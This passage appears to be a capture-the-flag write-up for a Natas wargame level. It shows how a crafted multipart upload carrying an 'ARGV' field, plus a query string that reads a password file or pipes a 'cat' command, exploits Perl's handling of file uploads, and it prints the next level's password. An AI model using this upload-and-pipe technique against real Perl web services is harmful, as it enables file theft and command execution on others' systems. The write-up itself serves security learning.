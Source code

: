 ```
Upload
------geckoformboundary1a049a7a33f067ae1047023a86016037--
```
We made 2 changes to the original request. First, we added `?/etc/natas_webpass/natas32` to the URL. This is the string `file descriptor` we talked about, being inserted into `open()`. Second, we added this part:
```
------geckoformboundary1a049a7a33f067ae1047023a86016037
Content-Disposition: form-data; name="file"

ARGV
```
This is the first file uploaded, and as discussed earlier, it only contains `"ARGV"`. We send this request, and just like that we've managed to trick Perl into showing us the password using `The Perl Jam 2` vulnerability.

It's worth mentioning that according to the source, adding `|` at the end of the URL will make Perl execute a command instead of just reading that as a file descriptor. Therefore, another way is adding `?cat%20/etc/natas_webpass/natas32%20|` to the URL, while making the same `ARGV` change as before.

Password: `NaIWhW2VIrKqrc7aroJVHOZvk3RQMi0B`
